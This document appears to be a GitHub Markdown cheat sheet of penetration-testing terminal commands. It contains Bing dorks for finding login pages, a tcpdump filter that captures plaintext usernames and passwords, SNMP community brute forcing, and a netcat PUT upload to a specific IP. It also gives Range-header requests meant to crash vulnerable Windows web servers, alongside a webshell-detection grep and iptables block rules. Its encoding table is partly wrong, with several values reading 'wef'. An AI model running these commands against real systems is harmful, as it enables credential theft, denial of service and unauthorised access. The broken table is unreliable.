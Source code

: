 # <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Terminal / Other
##### &#x1F538;  VPN config (term) :
`sudo openvpn --config vpnbook-euro2-tcp80.ovpn`

##### &#x1F538;  BEST DORK FOR Bing.com : 
    -site:.com intitle:login.page inbody:"User Login"
    intitle:login.page inbody:"User Login" instreamset:url:".php"
    intitle:"Admin Login" inbody:"login"
    intitle:"User Login" instreamset:url:login.php?id=
    intitle:"News" instreamset:url:news_id.php?id=
    inbody:"login" instreamset:url:sa/index.php?id=
    
    
##### &#x1F538; SSLscan Show full certificate information : 
`sslscan --http --bugs --verbose --show-certificate target.com`
    
##### &#x1F538; TCPdump eGrep username / password : 
`sudo tcpdump -A -i any -w loging.pcap | egrep -i 'username=|password=' --line-buffered -B20`

    sudo /usr/sbin/tcpdump -Nnn -i any -s0 'tcp[13] & 1 != 0'
    #Block ip : 
     - sudo iptables -A INPUT -s IP -j DROP
     - sudo /usr/sbin/tcpdump host <ip>	#check the ip traffic
     - sudo /usr/sbin/tcpdump portrange 80-137-443-445		#check port range between 80-445
     - sudo /usr/sbin/tcpdump src 10.0.0.13 and dst port 80 or 22	#traffic that from ip and port 
    

##### &#x1F538; AnyCMD : 
    #resolve websites
    - pnscan -v -s -t10 <TARGET>/24 80
    - dmitry -winsepo output.txt <TARGET>
    
    #check vm with crunch list install (sudo apt intall onesixtyone)
    - crunch 4 4 ad12 > smpList
    - onesixtyone -c smpList -d <TARGET>
    - snmpcheck -c smpList -d <TARGET>
    
    #TCP, UDP open ports in real time with socket summary
    - watch ss -stplu
    
    #view established connections
    - lsof -i
    - #looking for cracks:google:(Xxxx)" 94fbr)
    #Adding random word before list ex: admin -> will be -> 9xadmin,eqadmin,ifadmin:
    - paste <(base64 -w2 /dev/urandom) user_list.txt | awk 'NF==2{print $1$2} NF!=2{exit}'
    
##### &#x1F538; Grep / Find String : 
    #find inside any file and print it 
    - find /usr/share -iname '*SQLMAP*' -print
    - find /var/www/ -name "*.php"
    - find /home -type f -name '*.php' -mtime -7
    - find /var/www/html/ -type d -perm 755 -exec find {} -name "*.zip" \;
    - find / -xdev -type f -size +100M -exec ls -la {} \; | sort -nk 5
    - find . -name "*.sql"
    #Zip all folders to a1.zip
    - zip -r a1.zip .
    #Remove space between lines in file.txt / a.json result
    - sed '/^ *$/d' a1.json > output.txt
    #Print & save only 5 words in list.txt
    - awk 'length>5' list.txt > done_list.txt
    
#### &#x1F538; Reading files end with php and search for Shell :
    grep '((eval.*(base64_decode|gzinflate|\$_))|\$[0O]{4,}|FilesMan|JGF1dGhfc|IIIl|die\(PHP_OS|posix_getpwuid|Array\(base64_decode|document\.write\("\\u00|sh(3(ll|11)))' . -lroE --include=*.php*

##### &#x1F538; SCAN Methods With openssl
    #Open terminal and type : 
        - openssl s_client -connect <TARGET:443>
    #Hit enter twice and enter :    
        OPTIONS / HTTP/1.1
        Host: <TARGET>

##### &#x1F538; PUT FILE WITH NetCat
    nc 190.115.18.139 80
    PUT /x.txt HTTP/1.1
    Host: 190.115.18.139



### &#x1F538; Hashed Type : 
    Urlencode : wef
    Double Urlencode : wef
    Base 64 : dDR0ZWFt
    Uri Hexadecimal : %74%34%74%65%61%6d
    Random upper : wef
    Double nibble hexa : %%37%34%%33%34%%37%34%%36%35%%36%31%%36%64
    SHA1 : 376ccc0db6534301362711e1fbc455f9710b447a
    MD5 : 7c3a9746c0bb3c99f4877edbbf6d3690
    Binary Ascii : 74347465616d
    Html Decimal : &#116;&#52;&#116;&#101;&#97;&#109;
    Html Hexadecimal : &#x74;&#x34;&#x74;&#x65;&#x61;&#x6d;
    UTF-8 Binary : \x74\x34\x74\x65\x61\x6d
    UTF-8 : \u0074\u0034\u0074\u0065\u0061\u006d
    Mysql char : CHAR(116,52,116,101,97,109)
    MSsql char : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)
    All : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)


##### &#x1F538; Check If return [Requested Range Not Satisfiable] means vulnerable :
    wget --header="Range: bytes=0-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Check if [BSOD] Vulnerable systems:
    wget --header="Range: bytes=18-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Stop ip / Block :
    sudo iptables -A INPUT 1 -s IP-ADDRESS-DDOS-HACKER-HERE -j DROP/REJECT
    sudo iptables-save 
   
    #Block IPs#4v3r
    - iptables -A INPUT -s xxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 80 -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 443 -j DROP

##### &#x1F538; Generate 1M 0-1,000,000 number
    #!/usr/bin/env bash
    i=1
    while [ $i -le 1000000 ]
    do
        echo $i
        i=$(($i+1))
    done
 
